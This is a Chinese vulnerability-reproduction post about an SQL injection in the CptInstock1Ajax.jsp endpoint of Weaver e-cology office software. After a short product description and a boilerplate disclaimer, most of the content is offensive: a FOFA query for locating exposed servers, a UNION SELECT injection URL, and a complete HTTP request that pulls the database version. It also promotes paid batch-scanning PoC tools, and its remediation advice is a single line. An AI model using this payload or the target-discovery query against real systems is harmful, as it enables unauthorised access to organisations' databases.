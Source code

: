 #  泛微e-cology CptInstock1Ajax.jsp接口存在SQL注入漏洞 附POC   
2024-10-15更新  南风漏洞复现文库   2024-10-15 23:29  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. 泛微e-cology简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
泛微e-cology依托全新的设计理念,全新的管理思想为中大型组织创建全新的高效协同办公环境。  
## 2.漏洞描述  
  
泛微e-cology依托全新的设计理念,全新的管理思想。 为中大型组织创建全新的高效协同办公环境。 智能语音办公,简化软件操作界面。 身份认证、电子签名、电子签章、数据存证让合同全程数字化。泛微e-cology CptInstock1Ajax.jsp接口存在SQL注入漏洞  
  
CVE编号:  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
  
泛微e-cology  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsJDm7fvc3YsEEZhAFdjCsn9jBq79icKgBbFibydnYXBNTGkRNXT0wEenwF1ojpRP6q2JcJnibzVKunlIsARTPiaaA/640?wx_fmt=png&from=appmsg "null")  
  
泛微e-cology CptInstock1Ajax.jsp接口存在SQL注入漏洞  
## 4.fofa查询语句  
  
app="泛微-OA（e-cology）"  
## 5.漏洞复现  
  
漏洞链接：http://xx.xx.xx.xx/cpt/capital/CptInstock1Ajax.jsp?id=-99+UNION+ALL+SELECT+@@VERSION,1#  
  
漏洞数据包：  
```
GET /cpt/capital/CptInstock1Ajax.jsp?id=-99+UNION+ALL+SELECT+@@VERSION,1 HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YsEEZhAFdjCsn9jBq79icKg1tGFDbwYPlWr0xdu1qP2ePayOjUSyvYdMKLNq58XhwycPDTCzdyWgA/640?wx_fmt=jpeg&from=appmsg "null")  
## 6.POC&EXP  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。2: 免登录，免费fofa查询。3: 更新其他实用网络安全工具项目。4: 免费指纹识别，持续更新指纹库。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YsEEZhAFdjCsn9jBq79icKgiaJ6AicrvSUmsSQx38D5ShoxdyqcticDWBVWviaf8ybGnFtcDLX6CSGOHQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsJDm7fvc3YsEEZhAFdjCsn9jBq79icKgKTWhvpaxUZJPicJib92oWUGr1lVcygyXf1Yg0No5NF5OwxUB0zLIGKxw/640?wx_fmt=png&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YsEEZhAFdjCsn9jBq79icKgqv8WLhcIcFbZvicj7cngGdWB7R1bW1JFKldNHmS3p8tSXG8OawDyJYg/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YsEEZhAFdjCsn9jBq79icKgGE3Rf5pMcic7WGj7qaxvsMnF4iaa6eqSI8MibNbOJdlmpKeJ8ImLfPibTg/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YsEEZhAFdjCsn9jBq79icKgVmYaStzhVc7rLxnHMpickvL5zzQ7Pu8DsFOj0vQLScanm2Djwm8SGPQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YsEEZhAFdjCsn9jBq79icKgHZXBtxyNQj4cVxbHyMLdsnlrU0yCvMVSvRib00lKk6s7Yicib8DtQDVWA/640?wx_fmt=jpeg&from=appmsg "null")  
## 7.整改意见  
  
请联系官方打补丁：https://www.weaver.com.cn/e9/  
## 8.往期回顾  
  
[灵当CRM pdf.php接口处存在任意文件读取漏洞 附POC](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247487522&idx=1&sn=2594bc5303d5f60761f7ea5397e38b1c&chksm=974b9d25a03c14330ff6f7ca85d472082d2c31fe45936d05d66931539d17b44c88ad83bec551&scene=21#wechat_redirect)  
  
  
[灵当CRM wechatSession/index.php接口处存在文件上传漏洞 附POC](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247487509&idx=1&sn=ef7b4ed4bce6dbe5db7f2055a04a98f0&chksm=974b9d12a03c1404c6e38166520f6d3d496cd1c2031477c995970e5abbe8b9dcdeed11dc0c39&scene=21#wechat_redirect)  
  
  
  
  
